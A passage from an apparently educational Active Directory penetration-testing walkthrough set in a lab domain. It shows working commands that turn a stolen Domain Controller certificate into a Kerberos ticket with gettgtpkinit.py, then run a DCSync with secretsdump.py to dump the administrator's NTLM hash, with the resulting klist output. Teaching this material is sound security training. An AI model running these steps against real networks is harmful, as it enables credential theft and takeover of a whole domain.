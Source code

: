 Back in our other window, we will see a successful login request and obtain the base64 encoded certificate for the Domain Controller if the attack is successful.

### Requesting a TGT Using gettgtpkinit.py

Next, we can take this base64 certificate and use `gettgtpkinit.py` to request a Ticket-Granting-Ticket (TGT) for the domain controller.

```shell-session
$ python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <base64 certificate> dc01.ccache
```

### Setting the KRB5CCNAME Environment Variable

The TGT requested above was saved down to the `dc01.ccache` file, which we use to set the KRB5CCNAME environment variable, so our attack host uses this file for Kerberos authentication attempts.

```shell-session
$ export KRB5CCNAME=dc01.ccache
```

### Using Domain Controller TGT to DCSync

We can then use this TGT with `secretsdump.py` to perform a DCSYnc and retrieve one or all of the NTLM password hashes for the domain.

```shell-session
$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

We could also use a more straightforward command: `secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` because the tool will retrieve the username from the ccache file. We can see this by typing `klist` (using the `klist` command requires installation of the [krb5-user](https://packages.ubuntu.com/focal/krb5-user) package on our attack host).

### Running klist
```shell-session
$ klist

Ticket cache: FILE:dc01.ccache
Default principal: ACADEMY-EA-DC01$@INLANEFREIGHT.LOCAL

Valid starting       Expires              Service principal
04/05/2022 15:56:34  04/06/2022 01:56:34  krbtgt/INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL
```

### Confirming Admin Access to the Domain Controller

Finally, we could use the NT hash for the built-in Administrator account to authenticate to the Domain Controller. From here, we have complete control over the domain and could look to establish persistence, search for sensitive data, look for other misconfigurations and vulnerabilities for our report, or begin enumerating trust relationships.
